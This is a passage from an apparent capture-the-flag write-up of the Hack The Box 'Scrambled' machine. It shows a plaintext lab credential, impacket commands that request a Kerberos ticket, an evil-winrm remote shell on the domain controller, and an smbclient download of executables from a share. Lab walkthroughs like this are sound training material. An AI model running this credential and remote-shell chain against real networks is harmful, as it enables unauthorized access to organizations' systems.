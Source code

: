  creds
````
MiscSvc:ScrambledEggs9900                                    

`````

### impacket get TGT form user MiscSvc
````bash
sudo python3 getTGT.py scrm.local/MiscSvc:ScrambledEggs9900

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Scrambled/screenshots/impacket%20get%20TGT%20MiscSvc.png)

### export ticket
````bash
export KRB5CCNAME=MiscSvc.ccache

`````

/etc/krb5.conf
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Scrambled/screenshots/krb5.conf.png)

### evil-winrm
````
evil-winrm -r SCRM.LOCAL -i dc1.scrm.local

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Scrambled/screenshots/evil-winrm%20shell.png)

### user.txt
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Scrambled/screenshots/user.txt.png)

### download utility not working
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Scrambled/screenshots/powershell%20download%20file.png)

### download .exe and .dll
### impacket smbclient
````bash
python3 smbclient.py -k scrm.local/MiscSvc:ScrambledEggs9900@dc1.scrm.local -dc-ip dc1.scrm.local

`````

````
```
use IT
get Apps/Sales Order Client/ScrambleClient.exe
get Apps/Sales Order Client/ScrambleLib.dll
```

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Scrambled/screenshots/impacket%20smbclient%20download%20file.png)

XXXXXXXXX